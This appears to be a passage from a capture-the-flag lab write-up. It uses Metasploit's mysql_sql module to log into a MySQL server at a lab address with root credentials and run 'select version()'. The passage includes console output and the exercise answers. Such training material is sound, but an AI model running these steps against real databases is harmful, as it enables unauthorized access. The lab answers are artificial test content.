 ```
                 (   3 C    )     /|___ / Metasploit! \                            
                 ;@'. __*__,."    \|--- \_____________/                            
                  '(.,...."/                                                       


       =[ metasploit v6.1.39-dev                          ]
+ -- --=[ 2214 exploits - 1171 auxiliary - 396 post       ]
+ -- --=[ 616 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: You can pivot connections over sessions 
started with the ssh_login modules

msf6 > search mysql_sql

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/admin/mysql/mysql_sql                   normal  No     MySQL SQL Generic Query


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/mysql/mysql_sql                                                             

msf6 > use 0
msf6 auxiliary(admin/mysql/mysql_sql) > options

Module options (auxiliary/admin/mysql/mysql_sql):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   PASSWORD                    no        The password for the specified username
   RHOSTS                      yes       The target host(s), see https://github.c
                                         om/rapid7/metasploit-framework/wiki/Usin
                                         g-Metasploit
   RPORT     3306              yes       The target port (TCP)
   SQL       select version()  yes       The SQL to execute.
   USERNAME                    no        The username to authenticate as

```
We're going to be using the "mysql_sql" module.
Search for, select and list the options it needs. What three options do we need to set? (in descending order). *PASSWORD/RHOSTS/USERNAME*

```
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.106.201
RHOSTS => 10.10.106.201
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
msf6 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.106.201

[*] 10.10.106.201:3306 - Sending statement: 'select version()'...
[*] 10.10.106.201:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed

```
Run the exploit. By default it will test with the "select version()" command, what result does this give you? *5.7.29-0ubuntu0.18.04.1*
